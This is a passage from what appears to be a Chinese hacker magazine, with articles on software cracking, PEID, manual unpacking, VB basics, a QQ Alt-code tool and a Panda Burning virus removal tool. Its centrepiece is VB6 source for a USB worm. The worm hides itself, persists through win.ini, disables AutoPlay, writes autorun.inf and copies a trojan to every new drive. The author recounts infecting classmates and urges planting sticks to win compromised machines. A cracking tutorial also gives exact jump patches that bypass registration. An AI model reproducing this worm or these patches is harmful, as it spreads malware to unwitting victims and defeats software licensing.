00427BC3  push 0                ; 成功信息
```

通过注释，可以看出有以下几种改法（在地址 00427B73 之后的修改，修改一处即可完成爆破）：

- 修改 `00427B73` 处代码为反义跳转，即 `jge short 00427BA5`。
- 修改 `00427B73` 处的跳转地址，即 `jge short 00427BC3`，或改为 `jmp short 00427BC3`。
- 同理在 `00427BA3` 处可改为 `jge short 00427BC3`、`jmp short 00427BC3` 或 `jl short 00427BC3`。

上面的几种修改方法就是比较经典的修改关键跳的方法。再来看 `00427B99`、`00427B9E`、`00427BA3` 这几句注册信息认证步骤……程序检查 `eax` 中的值是否大于等于 `0BC614E` 来决定注册是否成功与否。

- 修改 `00427B9E` 处比较语句，只要满足下面跳转条件即可，如 `cmp 1,0` 或 `cmp eax,eax`。
- 修改 `00427BA3` 处跳转，同样可改为 `jl/jmp short 00427BC3`。
- 修改 `00427B99` 处函数调用语句，直接给 `eax` 填较大值，如 `mov eax,0BC614E`。

既然已经知道了认证函数的地址，直接去看不就行了？……图6中的代码位置已经是注册函数末尾了，这里就是爆破点，也有几种改法。

- 修改 `00427B01` 处代码为 `jz short 00427B0A` 或 `jnz short 00427B03`，还可使用 `nop` 跳掉它。
- 将注册不成功时填的返回值改为成功的值。

至此，我们的爆破方法就已经描述完了，再来整理一下思路：程序试探 → 寻找爆破点 → 修改关键跳转……在代码界面内修改完后，选择“复制到可执行文件—所有修改”，再“全部复制”，最后保存文件。

以上就是我这些时日来的一些学习心得，希望对入门的破解初学者有所帮助。（文中涉及工具：CrackMe 1.0、PEID v0.94、OllyDBG v1.10）

## 从零开始学破解之（九）

## PEID 查壳

在上一堂课中我为大家介绍了“壳”这个概念及相关基础知识……想要真正掌握加壳与脱壳技术，一定要多实践。首先为大家介绍一下脱壳的一般步骤：1. 查壳；2. 脱壳。查壳就好比锁定目标，脱壳则是对目标发起攻击。

经确定了目标种类和方位，下一步就是展开攻击。这里提到的“炮弹”“导弹”是指各类脱壳方法。本堂课主要内容是详细介绍脱壳第一步——查壳。常见查壳工具中，PEID 使用最广，操作简洁且支持插件；较早期的 language2000、FileInfo 等已逐渐被取代。

### 第一节：配置我们的 PEID

我们就以 PEID 为例，为大家重点介绍它的使用方法。双击打开 PEID，就可以看到 PEID 的主界面了（图1）。看着主界面上的那些难懂术语，什么“入口点”、“文件偏移”的，小菜们会不会觉得头晕呢？我们先不管这些东西到底是什么意思，先来看看如何配置我们的 PEID。回到 PEID 的主界面上单击“选项”按钮，就可以打开 PEID 的配置界面了（图2）。我们可以看到有的配置选项已经有默认的设置了。但是想更好地使用 PEID，还必须对这些配置进行一些必要的修改。

首先我们把扫描选项选择到“核心扫描”这一项来（默认的配置是“普通扫描”），这样可以增加扫描的准确性。其次选中“添加到右键菜单”，默认情况下这一项是没有被选中的。添加到右键菜单就可以更方便地使用 PEID 了，例如我们任意选取一个程序，对它进行加壳情况的检查，只要单击这个程序后接着点击鼠标右键，就可以直接使用 PEID 了（图3）。

大家还可以接着选择“最小到系统托盘”这一项，选择这项后，当最小化的时候 PEID 就会“钻进”系统的托盘里（图4），这个选项没有什么大的用处，就看大家的个人爱好了。另外，如果我们需要对多个程序进行检测的话，那么就需要把“允许运行多个 PEID”这项也选上。这样就可以同时检测多个文件了。经过我们的进一步配置，PEID 的最终配置情况如图5所示。好了，完成了设置的工作，下面就可以开始使用 PEID 了。

那么，问题又出现了：如何在 PEID 中打开目标程序呢？使用 PEID 打开目标程序的方法有以下三种：

- 第一种，常规法。所谓常规法就是在运行 PEID 之后，单击“文件”选项之后的按钮，在弹出的对话框中选择我们需要检测的软件（图6）。
- 第二种，拖拽法。就是把目标程序的图标直接拖拽到 PEID 的运行界面上来就可以了，和在操作系统中把文件拖来拽去是一样的。
- 第三种，右键法。如果大家在设置 PEID 时选择了“添加到右键菜单”，那就可以使用这个方法了。找到一个感兴趣的软件，鼠标单击选中它之后再单击右键，在弹出的快捷菜单中选择“Scan with PEID”（图7），这样 PEID 就直接运行了，并且会把检测的结果显示出来。

### 第二节：PEID 的使用方法

如何使用 PEID 去检测一个程序呢？小菜们可能会认为这肯定是一个非常复杂的过程。其实，使用 PEID 去检测一个程序是非常简单的事儿，我们所要做的仅仅是在 PEID 中打开目标程序，剩下的工作就全都交给它了，我们只要等待检测的结果就可以了。

怎么样，是不是没有想象中的那么复杂！使用的过程是相当简单的。掌握了这三种方法也就可以算是学会了 PEID 的使用了。但是，仅仅知道了如何去使用还是不够的，我们还得要看看 PEID 的“检测结果”。什么是 PEID 的检测结果呢？我们使用 PEID 检测一个软件（大家任意选择），比如我选择“QQ”来作为检测的目标。首先使用 PEID 打开 QQ，前面的三种方法可以随便使用哦！打开之后，我们会在 PEID 里看到这样的一些东西（图8），这些东西都是什么意思呢？小菜们不要着急，听我慢慢解释。

我们先注意第一行信息，就是“文件”这一栏后的内容，大家看看这里显示的是什么呢？没错，在这里显示的就是 QQ 在我们系统中的路径（图9）。再往下看，就是什么入口点、EP 段、文件偏移等等这些乱七八糟的内容了。先不管它们！因为目前还用不到这些东西，直接来到底下的一行看看。这里显示的是“Microsoft Visual C++ 6.0”（图10），这是什么意思呢……这就表示目标软件（这里的 QQ）是使用 VC++ 语言编写的。

可是就算知道了软件是使用什么语言编写的又有什么用呢？不要小看这个提示哦！这可是 PEID 给我们的一个“最重要”的提示。如果我们检测一个软件时出现“Microsoft Visual Basic 5.0 / 6.0”或“Microsoft Visual C++ 6.0”这样的提示，那就表示软件没有加壳……出现这个提示的地方我们一般把它叫做 PEID 的“信息栏”。

那么，还有哪些情况表示软件没有被加壳呢？简单地说就是当 PEID 的信息栏中显示的是编程语言时就表示软件没有被加壳。除了提到的 Microsoft Visual C++、Microsoft Visual Basic 外，常见的还有 Borland Delphi 等等。

软件没有被加壳，PEID 就会显示出编写软件所用的语言；那么软件如果加了壳又会出现什么情况呢？我们来做一个实验！首先我们找一个 CRACKME，先检测一下。使用 PEID 打开这个 CRACKME……这个 CRACKME 是使用 VB 语言编写的（图11），这表示此时的 CRACKME 还没有加壳。

我们再来实验一次，这一次加个 UPX 的壳看看。加壳完后再使用 PEID 检测一下，检测结果就变成“UPX … -> Markus & Laszlo”，这表示当前小程序已经被加了一层 UPX 的壳。我们使用 ASpack 给这个 CRACKME 再加一个壳，顺便复习一下使用 ASpack 加壳的方法。

加壳完成后，我们再使用 PEID 检查一下，检查的结果如图12所示。原来信息栏显示的“Microsoft Visual Basic”现在变成了“ASPack 2.12 -> Alexey Solodovnikov”，这就表示这个小程序已经使用 ASpack 加壳过了。

经过以上实验，我们可以发现 PEID 可以快速准确地检测出我们给 CRACKME 所加的壳，并且能把加壳的详细信息反馈给我们。比如说加了一个什么样的壳，所加壳的版本是什么等等。那么 PEID 有没有犯错误的时候呢？当然也有的。一般来说 PEID 可以非常准确地检测出程序所加的壳，但是如果出现了一款新壳，而且 PEID 的特征库又没有更新，那么就会造成 PEID 不能识别的情况。

在这种情况下 PEID 的信息栏显示的是“什么都没找到”（图13）；不过 PEID 的特征库是很丰富的而且不停地在更新，所以这个问题不会影响到大家的日常使用。今天的内容就介绍到这里，大家体验了 PEID 的强大功能。当然，查壳只是 PEID 最基本的一项功能，有的时候 PEID 甚至可以当作脱壳机来使用，相当于把查壳和脱壳这两个工作一下子就完成了。接下来将详细介绍 PEID 的脱壳功能和最为流行的脱壳机。

（文章中涉及到的工具 PEID 已经收录在光盘中）

## 手工脱壳之七招注解

在跟随“从零开始学破解”系列文章逐步学习破解知识后，本文继续引出与“加壳/脱壳”相关的实践内容。作者指出，脱壳是破解中必须掌握的关键技术之一，并以常见壳 ASPack 2.12 为例，介绍手工脱壳的方法与思路。文中先说明了 PUSHA/PUSHAD、POPA/POPAD、OEP 等概念，并强调通过定位真实 OEP 来完成脱壳。

> **脱壳需要遵循以下几个基本原理：**

- 若遇到向上跳转，不要直接进入该跳转；可先在下一句按 F4 设置断点，再继续运行。
- 若刚载入程序附近出现 `CALL`，优先按 F7 跟进。
- 若运行到某个 `CALL` 且程序尚未走稳，可在该 `CALL` 中继续 F7 跟进。
- 出现较长跳转链（如 `jmp`、`je`）或 `RETN` 时，通常已接近程序 OEP。

### 一、单步跟踪法

使用 OD 载入程序后，通过单步（F8）与跟入（F7）配合追踪 `CALL` 与跳转路径，结合断点（F4）逐步逼近 OEP。文中示例在若干地址处进行跟踪、回退与继续执行，最终到达目标 OEP（如 004010CC），随后通过右键菜单与 OllyDump 等方式保存文件，完成脱壳。

> **小提示：**

对于部分分壳，在无法跟踪时，可在附近按 F4 先下断点，运行至断点后再取消断点，继续按 F8 单步跟踪。

### 二、ESP 定律法

ESP 在 OD 的寄存器中，可通过关注命令行下对 ESP 的硬件访问来辅助定位关键执行点并继续脱壳分析。载入 OD 后按 F8 跟踪，观察 OD 右上角寄存器中 ESP 是否变成红色；确切地说，我们选择的 ESP 值是关键句之后的第一个 ESP 值（如图6）。在命令行下输入 `dd 0012FFA4` 后回车，然后右键“下断此址”→“断点”→“硬件访问”→“字”（如图7）。按 F9 运行，直接来到跳转处，然后一步步按 F8，发现 `retn` 到达程序的 OEP。

### 三、内存镜像法

程序载入 OD 后，点击“选项”→“调试选项”→“异常”，把里面的忽略项全部“√”选上，如图8。按 `Ctrl+F2` 重新载入程序，按 `Alt+M` 打开内存镜像，找到程序的第一个 `.rsrc`，如图9。注意是程序的 `.rsrc`（00414000），而其它 `.rsrc` 可能是动态链接库或者程序模块的。按 F2 下断点，如图10。然后按 F9，再按 F8 跟踪，发现 `retn` 返回，直接到达程序 OEP。

### 四、一步到达 OEP

这种方法一般只适合少数壳（如 UPX、ASPack 的壳）。程序载入 OD 后按 `Ctrl+F` 选择“查找”→“命令”，如图11；输入 `popad`，注意“整个块”不要“√”选上。然后在来到的代码处点击鼠标右键，选择“查找”→“下个”，也可以使用热键 `Ctrl+L`，如图12。反复三次 `Ctrl+L` 后，我们又发现了 `retn` 返回，接下来和前几种方法一样，按 F8 跟踪到 OEP 处进行脱壳。

### 五、最后一次异常法

OD 载入程序后点击“选项”→“调试选项”→“异常”，这次是把里面的“√”全部去掉，如图13。按 `Ctrl+F2` 重新载入程序，不过按了一次 F9 程序就运行了，也就是一般说的“程序跑飞”，所以这种方法在 ASPack 壳上不能使用。

### 六、模拟跟踪法

把程序载入 OD 后先按 F9 试运行一下，也就是跟踪一下程序，分析是否存在 SEH 暗桩。按 `Alt+M` 打开内存镜像，找到 00416000 这句（包含 =SFX，输入表示重定位），我们就在命令处输入 `tc eip<地址`，然后回车，如图14。OD 会显示“正在跟踪”，然后就直接返回 OEP 了……一定要注意，使用这个方法时，一定要理解要在什么情况下才能使用。

### 七、危险的“SFX”法

把程序载入 OD，忽略所有异常，也就是说异常选项里都打上勾，如图15。然后再切换到 SFX 选项，选择“字节模式跟踪实际入口（速度非常慢）”，如图16，点击“确定”。OD 重新载入程序（如果跳出是否“压缩代码？”选择“否”），OD 直接到达 OEP 了，然后脱壳即可。

相信大家在了解以上这几种基本的脱壳方法，再结合以后陆续推出的破解系列文章的实践，一定会对脱壳有更好的理解，并且能够更熟练地掌握脱壳技术。

小编点评：对于菜鸟级读者来说，本文难度较大，而且本文所介绍的七种手工脱壳的方法也不易理解。不过没关系，相信随着“从零开始学破解”的越来越深入地学习，以上这些方法我们都会慢慢地以实例的形式来教给大家的。到那时，本文所介绍的这几种方法，大家就会更好地掌握了！

（文章中涉及到的 OD 以及脱壳相关录像已经收录在了光盘中）

## 上接第443页

这个函数只有两个参数，其中关键的一个是可以调节发声频率；我们使用一个循环，把声音从频率为 37 发到 32767。第二个参数是发声时长，我们设置成 30 就可以了，具体数字可以自己定，不过不要太大，否则程序半天才会停止。使用这个函数前我们先要添加 Windows 单元，在 SysUtils 后加上 `Windows`，然后在 `begin` 前面定义一个整型变量 `n`，用作循环使用。最后就是在 `begin` 和 `end` 之间添加关键性的两行代码，整个程序的代码如下。

```pascal
program Project2;
{$APPTYPE CONSOLE}
uses
  SysUtils,
  Windows;
var
  n: integer;
begin
  for n := 37 to 32767 do
    Windows.Beep(n,30);
end.
```

好了，程序算是完成了，我们按 F9 运行一下看看。感觉到了吧，怎么样，像陨石要掉下来了，是不是很吓人？不过不用着急，我试过好多次，扬声器是不会坏掉的。如果真的非常害怕的话，把程序关闭就行了。另外，整个循环完成之后程序也会自动退出的。

功能是实现了，不过还有两个问题：程序运行时始终有那个 DOS 窗口，这样算考虑不周可不行。不要急，我们把程序中含 `{$APPTYPE CONSOLE}` 这一行注释掉就行了，而且这样处理后再运行时，程序不会显示在任务栏。另外为了减小程序的体积，我们再把 `SysUtils` 这一行也注释掉，不让程序加载多余的单元，这样编译出来的程序只有 14K，经 FSG 压缩后也只有 7K！再重新运行，上面的问题就都没有了吧。运行时可以按 `Ctrl+F2` 停止程序。本程序最终代码和注释如图3所示。

最后我们选择菜单 File--Save 来保存代码，再选择 Project--Build All Projects 来编译程序，就会在我们保存代码的目录下生成 Project2.exe 文件了。将这个文件改名压缩，我们的整人工具就这么简单地打造出来了。文章结束了，相信各位菜鸟都很有成就感吧！其实我们在编写程序时多思考、多实践、多些创意，你的软件就会与众不同的！

（文章中涉及到的代码及编译后的程序已收录在光盘中）

## 菜鸟VB初体验

在X的论坛上经常见到许多新手朋友对于VB的学习很迷茫，甚至有很多新手一看到大片大片的程序代码就想要放弃。其实我也是一个VB初学者，在此，就将自己学到的一点关于VB小程序的简单编写方法介绍给大家，希望能够调动大家的热情，不要放弃对VB的兴趣。

### 一、VB编程初体验

首先我们来安装一个迷你版的VB（光盘中已收录），安装完毕后打开如图1所示。在“新建工程”的“新建”中选择“标准EXE”，单击“打开”，如图2。注意图2中标示的地方，下文中提到的各种控件都在里面了，把鼠标悬停在每一个小图标上，就会看到那个控件的名称。


“Click”是指按钮的单击事件，在中间的空白处填写一些程序代码，也就是在该控件被单击时要执行的动作。


### 二、添加Command控件

根据图2的指示，我们选中该控件后，在程序界面上按下鼠标不放，随意地拖动就可以画出一个Command控件，如图3。在右边的“属性”面板里会有这个Command控件的所有信息，包括名称（默认为Command1）、表面显示字样（Caption属性里，默认为“Command1”）。

双击刚才添加好的Command1控件，如图4，就会自动生成如下代码：

```vb
Private Sub Command1_Click()

End Sub
```

### 三、SHELL函数实现简单功能

Shell函数是VB中一个非常好用的函数，它可以执行任意命令，就像是我们在“开始”→“运行”栏里输入命令执行一样。下面介绍几个常用的功能，把这些代码放到Command1控件的Click事件代码中，就可以实现一些常用的功能。

- 1. **打开指定盘符**
- 2. **打开资源管理器**
- 3. **打开指定网址**
- 4. **打开控制面板**
- 5. **打开cmd**
- 6. **运行C盘Windows目录下的aaa.exe程序**
- 7. **将C:\windows目录下的aaa.exe程序移动到D盘**

```vb
Shell "explorer C:\", vbNormalFocus
```

这句代码可以打开硬盘中的C盘。后面使用“,”隔着的意思是指打开C盘后不会最小化。其中的“C”可以换成其它想要打开的分区。

```vb
Shell "EXPLORER.EXE /n, /e,"
```

打开“我的电脑”和“资源管理器”。/n表示以“我的电脑”方式打开一个新的窗口，而/e则表示以“资源管理器”方式打开一个新的窗口。如果后面加上“, vbNormalFocus”则表示打开后不会最小化。

```vb
Shell "explorer.exe http://www.hackerxfiles.net"
```

打开网页“http://www.hackerxfiles.net”，当然也可以换成其它想要打开的网站。

```vb
Shell "control.exe"
```

```bash
shell "cmd.exe"
```

```bash
shell "c:\\windows\\aaa.exe"
```

```bash
shell "cmd /c move c:\\windows\\aaa.exe d:\\aaa.exe"
```

### 四、其它有用的简单代码介绍

**1. kill函数**

这个函数可以删除指定的文件，例如 `kill "C:\\AAA.exe"`，表示删除C盘根目录下的AAA.exe程序。

**2. 写入指定内容到文件中**

```vb
Open "C:\123.txt" For Append As #1
Print #1, "黑客X档案"
Close #1
MsgBox "生成成功!", vbOKOnly + vbExclamation, "生成文档"
```

这段代码可以在C盘根目录下生成一个123.txt文件，并将“黑客X档案”作为内容写入该文件。使用这个方法可以在电脑启动文件夹里写入文件以达到开机自动运行某程序的目的。代码里的MsgBox函数用于弹出提示对话框，`vbExclamation` 也可以用 `vbInformation` 或 `vbCritical` 替换。

**3. 让程序显示时间**

要让程序时刻显示最新时间，需要考虑显示位置和刷新频率。通常创建一个Label控件显示日期，再创建Timer控件，在Interval属性中写入时间间隔并在Timer事件中更新显示内容。


执行时间以毫秒为单位，改为1000即可每秒刷新。双击Timer控件后写入代码 `Label1.Caption = Time`，再点击“运行”按钮即可看到效果。


写入自定义内容后，就可以做成自己的“黑客软件”，可用于方便打开常用文件或程序等。

- 1. 关闭测试运行程序，返回代码设计视图；
- 2. 在菜单栏“窗口”中选择“工程-1 Form（Form1）”回到界面设计视图；
- 3. 选中刚才“测试”用的控件，按 `DEL` 删除；
- 4. 点击 `Command` 控件，放置多个控件，并将 `Caption` 属性改为“C:”“D:”等；
- 5. 在任意控件上双击，进入Click事件代码设计，写入功能代码，单击“运行”测试；
- 6. 调整控件后选择“文件”→“生成工程1.exe”，保存为exe；
- 7. 运行该exe文件查看效果。


### 五、代码组合制作网吧常用小工具

有了上面的预备知识，我们可以在程序里设置多个Command控件用于打开指定盘符、控制面板、任务管理器、注册表、CMD命令提示符等。

> **小编点评：**  
> 这篇文章从最基础的编程入门出发，以简单实例带读者完成一个比“hello world”更实用的小工具。强调动手实践，不会编程也不要放弃，多练习就能做出自己的小程序。

（文中涉及的VB迷你版和作者做的小程序已经收录到光盘中）


## 超犀利U盘木马传播器

菜鸟造

Zorro

最近看到过一篇关于U盘病毒的文章，介绍如何使用VB2005来编写U盘病毒，可惜该病毒是使用.NET编写的，需要电脑安装 .Net Framework 2.0 才能运行。于是作者打算使用VB 6.0来改写。文中说明了选择该方案的动机、适用场景以及传播思路。

很多人都瞧不起VB，说VB有这个缺点有那个不足。其实每种编程语言都有所长，只要扬长避短都能写出优秀程序。作者将该程序定位为U盘木马传播机，并描述了在校园环境中的测试与传播设想。

> 不再加载autorun.inf，但在WinXP系统中仍会受到autorun.inf影响。由于现实中大量用户仍使用WinXP，因此传播仍具有可行性；并可通过程序里的 `Noautorun` 开关进行控制。

先来看程序流程图（图1）。病毒文件包含三个部分，并在VB中通过Timer控件定时检测驱动器盘符变化，窗体Caption设为service，供后续逻辑使用。

- 1. 病毒主文件 `service.exe`
- 2. `autorun.inf`
- 3. 你想要传播的木马程序

```vb
Private Declare Function GetLogicalDrives Lib "kernel32" () As Long  '查找盘符
Private Declare Function CopyFile Lib "kernel32" Alias "CopyFileA" (ByVal lpExistingFileName As String, ByVal lpNewFileName As String, ByVal bFailIfExists As Long) As Long
```

使用VB编写病毒的要点包括：程序不在任务管理器应用程序列表出现（`Service.TaskVisible = False`）、避免多次运行（如 `PrevInstance` 判断）、错误处理（`On Error Resume Next`）。随后利用 `autorun.inf` 实现U盘插入后的手动触发。

```ini
[AutoRun]
open=service.exe
shellexecute=service.exe
shell\打开\command=service.exe
shell=打开
```

程序自动启动部分可通过写入 `win.ini` 实现，相比直接改注册表更隐蔽。方法是在 `[windows]` 小节的 `load` 项加入自身程序路径。

```ini
WIN.INI
[windows]
load=c:\windows\service.exe
```

还需关闭系统自动播放功能以提高传播效率，可通过修改注册表键值实现：  
`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下 `NoDriveTypeAutoRun=FF`。

> **小提示：** 关闭自动播放功能后，不同Windows版本表现可能存在差异，需结合实际环境测试。


```vb
'拷贝文件
Private Declare Function WriteProfileString Lib "kernel32" Alias "WriteProfileStringA" (ByVal lpszSection As String, ByVal lpszKeyName As String, ByVal lpszString As String) As Long
'编辑win.ini文件
```

```vb
'程序初始化：
Private Sub Form_Load()
On Error Resume Next
If Service_PrevInstance Then End
Service.TaskVisible = False
Dim i As Long, ret As Long
Dim sysdir As String
h = 0 '全局变量，记录是否已经感染AUTORUN.INF文件
i = Shell(App.Path + "\server.exe", 1) '启动受传播的木马程序
sysdir = getwindir() '调用函数获取系统目录
copy (sysdir) '复制三个文件到系统目录
ret = WriteProfileString("windows", "load", sysdir + "\service.exe")
Call Noautorun '关闭系统自动播放功能
k = 0
Call getdisk(olddisk())
End Sub
```

```vb
Then '第一次无条件覆盖
Result = CopyFile(myname, objname, fExists)
Else
If Not Fileexists(disk, filename) Then '检查文件是否存在
Result = CopyFile(myname, objname, fExists)
End If
End If
End Sub

Private Sub dircheck()
If UCase(Left(App.Path, 1)) <> "C" Then
winHwnd = FindWindow(vbNullString, "service")
s = Shell("c:\windows\service.exe", 1)
If winHwnd <> 0 Then RetVal = PostMessage(winHwnd, WM_CLOSE, 0&, 0&)
End If
End Sub
```

我们来看下程序初始化模块，也就是LOAD模块。病毒主程序 service.exe 一启动马上执行 copy 过程，复制三个文件到系统目录，还使用 `WriteProfileString` 函数编辑 win.ini 文件以实现开机启动。接着是 `getdisk(olddisk())` 过程，初始化模块调用来获得系统初始驱动器数量，放在 olddisk 数组里，然后程序开始执行这个过程：

```vb
Private Sub Timer1_Timer()
Dim disk As String
disk = ""
disk = FindNewDisk()
If disk <> "" Then
    disk = disk & "\"
    Call copy(disk)
End If
End Sub

Private Sub copy(ByVal disk As String)
Call copytodisk(disk, "service.exe") '主程序
Call copytodisk(disk, "autorun.inf") 'inf文件
Call copytodisk(disk, "server.exe")  '木马服务端
Call dircheck                         '检查当前路径是否为C盘
End Sub
```

循环查找新的驱动器，发现后马上感染。接下来是程序的关键代码，主要负责拷贝文件和判断程序当前路径，检查目标文件夹是否存在相同文件，判断是否覆盖。由于现在U盘病毒很盛行，所以第一次感染时不管U盘的 autorun.inf 是否存在都应直接覆盖，这也是为了和其它U盘病毒竞争。

```vb
Private Sub copytodisk(ByVal disk As String, ByVal filename As String)
Dim myname As String
Dim objname As String
Dim fExists As Long
Dim s As Long
Dim Result As Long
fExists = 0
myname = App.Path + "\\" + filename
objname = disk + filename
If filename = "autorun.inf" And disk <> "C:" And h <> 1 Then
    '...
End If
```

我在学校打印室做了一下测试，没想到一天时间就得到了很多同学的“邀请”，如图2。看来我的免杀做得还不错嘛！我可没干坏事哦，观音姐姐会不高兴的，呵呵！


图2

程序完整代码我已打包，大家可以单步执行来研究。将编译生成的 service.exe 病毒主文件、autorun.inf 文件和 server.exe 这三个文件拷贝到U盘里（其中 server.exe 可以使用自己的木马来替换）。“借”给别人使用或者是到打印社里“照顾”一下老板的生意，肉鸡就会滚滚而来了。

最后声明一下：本文仅供技术研究所用，任何他人使用本文技术所造成的后果与作者无关，请大家慎重哟！

> ### 小编点评：
> 这个月应该是菜鸟的VB大餐月了。刚学了VB入门就看到用VB编写U盘病毒的文章，真是很及时。回想起几个月前做毕业设计时，班上所有人的U盘里都会躺着各种各样的 autorun.inf。好在早期的U盘病毒还只是传播病毒自身，实际危害并不大。现在作者把U盘病毒传播时带上了一只免杀的灰鸽子，思路确实不错。尽管文中的绝大部分话语说得很轻松，但我们还是要认真提醒：从技术角度来学，病毒的编写与侵权行为是两回事，一旦病毒真的被草率传播出去，所有后果要由你自己承担。

## 轻松制造QQ的ALT代码转换工具

扣肉

冬天真是冷，呆在机房里面都不肯出门了，天天都挂在QQ上没事干。前段时间忽然收到QQ上面有同学发“在QQ对话框中按住Alt键不放，再按小键盘数字29482，然后放开ALT键，将会出现你的名字！快试试看！”之类的消息，觉得很有意思，于是搜索资料并研究其原理。

网上描述说“文字的内码加上十六进制的10000，然后转换成10进制”。例如“我”的内码加10000后再转10进制。进一步研究发现这里涉及Unicode编码中转，VB中应使用AscW函数处理字符编码。

了解基本原理后，开始用VB写程序。创建标准EXE文件，在控件栏放置两个TextBox（Text1、Text2）和一个Command按钮。点击按钮后把Text1中的文字转换并输出到Text2。

```vb
Private Sub Command1_Click()
    Text2.Text = ""
    Dim i As Integer
    Dim temp As String

    For i = 1 To Len(Text1.Text)
        temp = temp & "Alt" & AscW(Mid(Text1.Text, i, 1)) + 65536 & " "
        Text2.Text = temp
    Next
End Sub
```

（其实核心代码就是：`AscW(Text1.Text)`）  
解释：使用Mid函数逐个取出Text1中的字符，再用AscW处理并加上65536（即十六进制10000），循环存入temp，最后赋给Text2显示。

### 几个细节问题：

- 1. VB右侧控件属性标签可修改默认文本。例如Command1的Caption改为“开始转换”，Text1改为“要转换的东西”，Text2改为“这里显示转换的结果”。
- 2. 当转换内容较多时，文本框可能不自动换行，在Text2属性中把MultiLine设为True即可。


图3


图1


图2

## 黑客编程

3. 根据个人需要，还可以自己研究一下，把程序的界面美化得更好看一些，如图3。

在程序中，输入“黑客X档案”，转换得到结果是“ALT + 40657 ALT + 88994 ALT + 65624 ALT + 92259 ALT + 92232”。打开一个QQ，在消息输入框里按下 Alt 键，依次输入得到的数字，成功了吧？如果大家还有什么别的好玩的东西，记得一定要分享哦！

> **小结点评：**  
> VB又见VB，这次作者结合了QQ上广为流传的 Alt 键加数字输入文字的故事，自己写了一个小小的编码转换工具。可能有些读者对编码、内码这些东西还不够了解，我也试图用类推词解释的方式带给大家，可是最后发现这个知识牵连得太多了，有点力不从心的样子。现在只能建议大家去百度搜索一下什么是“内码”，什么是“编码”。记住，要成为黑客，就必须和作者一样有探求精神，凡事往原理方面去追究。

（文章中涉及到的ALT代码转换工具已收录至光盘中。）


## 看菜鸟如何请走病毒

王炸 / ww0830

### 一、中招

最近，一名为“熊猫烧香”的病毒在网上大爆发。该病毒非常厉害，甚至会让杀毒软件“武功尽废”而被系统“秒杀”掉……（以下为正文）当某台电脑感染此病毒后，杀毒软件会被关闭、任务管理器被关闭，并会开启端口连接局域网内其他电脑。作者描述了排查、误判、再次感染与复发过程，指出该变种会感染大量 exe 文件，现有工具一时难以识别。

### 二、分析

和正常电脑对比常用文件大小后，发现 WinRAR.exe 也被绑定了病毒体。使用 WinHex 比较感染文件与原文件，定位到 PE 结构中多出的数据段，发现原文件头部前被加上约 0x12605 字节病毒体，文件末尾还添加了“WhBoy”标记及原文件名长度等信息。通过在 WinHex 中选择并删除嵌入块，再清除尾部标记，可手工恢复原始可执行文件。

（右栏承接）作者进一步说明：手工恢复虽然可行，但面对大量被感染 exe 效率很低，因此需要编写专杀程序实现自动解绑和恢复。

### 三、专杀工具的编写

编写程序，思路才是最关键的。首先考虑一下程序的整体流程。专杀的思想是：


- a. 遍历所有的 exe 文件
- b. 检查是否为中毒的文件，如果是，则进入第 3 步
- c. 在文件末尾得到原始文件的长度
- d. 从偏移 0x12605 起获取这么长的原始文件内容
- e. 将其恢复

思路考虑清楚了，就来逐步实现吧。

#### 1．检查文件是否中毒

判断一个 exe 文件是否中毒的方法是检查偏移 0x12605 的地方是否为 MZ 标志。如果是，再判断末尾是否为病毒的 0x01，如果两者都符合，就认为该文件为中毒文件。其代码和注释如下：

```c
// 判断文件流 fp 是否是被感染的文件
bool CheckWHVirus(FILE *fp)
{
    // 取得 0x12605 的偏移
    fpos_t pos = 0x12605;
    if (fsetpos(fp, &pos) != 0) {
        printf("Trouble opening file\n");
        return false;
    }

    // 从 0x12605 处读取两个字节
    char buffer[50];
    fread(buffer, sizeof(char), 2, fp);

    // 如果是 MZ
    if (buffer[0] == 'M' && buffer[1] == 'Z') {
        // 定位到最后一个字节
        long repos = -1;
        fseek(fp, repos, SEEK_END);

        // 读取 1 个字节
        fread(buffer, sizeof(char), 1, fp);

        // 如果是 0x01，认为是病毒感染文件
        if (buffer[0] == 0x01) {
            return true;
        }
    }

    return false;
}
```

#### 2．获取原始文件长度

为了有效清除，需要在文件末尾得到原始文件的长度。从上面的图2中可以看到，原文件长度是“0x02 0x38 0x33 0x35 0x35 0x01”这样的形式。那就从末尾 0x01 找起，直到起始的 0x02，中间数字就是原始文件的长度值。

```c
long FileLen = 0;      // 原始文件长度
long IExp = 1;         // 10 个指数
long repos = -1;       // 最后一个字节

// 寻找到 0x02
while (1) {
    // 从文件最后依次往前找
    repos--;
    fseek(fp, repos, SEEK_END);
    fread(buffer, sizeof(char), 1, fp);
    if (buffer[0] == 0x02) {   // 如果为 0x02，长度结束
        break;
    }

    // 更新文件长度
    FileLen = (buffer[0] - '0') * IExp + FileLen;
    IExp *= 10;
}

printf("\n\nLen is :%d", FileLen);
```

```c
FileLen = (buffer[0] - '0') * IExp + FileLen;
IExp *= 10;

printf("\n\nLen is :%d", FileLen);
```

#### 3．恢复输出原始文件

获得原始长度后，从偏移 0x12605 处读取该长度内容，就可以输出恢复原始文件了。代码和注释如下：

```c
char *strOriginFile = new char[FileLen];   // 分配原来文件长度的内容空间
fpos_t pos = 0x12605;
fsetpos(fp, &pos);                         // 定位到 0x12605 偏移处
fread(strOriginFile, sizeof(char), FileLen, fp); // 读取原文件长度的内容

// 将原文件内容输出
FILE *outfp;
outfp = fopen(strOriginFileName, "wb");
fwrite(strOriginFile, sizeof(char), FileLen, outfp);
fclose(outfp); // 就恢复了原来的文件内容
```

#### 4．遍历所有的 exe 文件

检查单个 exe 文件并恢复的代码已经完成，最后是遍历所有盘上的 exe 文件，并逐一检查即可。判断一个盘符是否为硬盘，可以使用 GetDriveType() 函数完成，其代码如下：

```c
char strRootPath[] = "c:\\";
if (GetDriveType(strRootPath) == DRIVE_FIXED) {
    // 如果是硬盘，进行检查
}
```

对每个盘下的每个项进行遍历。如果是文件夹，则递归遍历子目录；如果是文件，判断后缀名是否是 exe，如果是，就使用上面的 CheckWHVirus() 函数进行检查，并作相应处理。代码如下：

```c
// 遍历盘所属的文件夹和文件
void VisitAllFiles(char *lpPath)
{
    char szFind[MAX_PATH];
    WIN32_FIND_DATA FindFileData;
    strcpy(szFind, lpPath);
    strcat(szFind, "\\*.*");

    // 使用 FindFirstFile 查找
    HANDLE hFind = FindFirstFile(szFind, &FindFileData);
    if (INVALID_HANDLE_VALUE == hFind)
        return;

    while (TRUE)
    {
        // 如果是目录，递归遍历子目录
        if (FindFileData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
        {
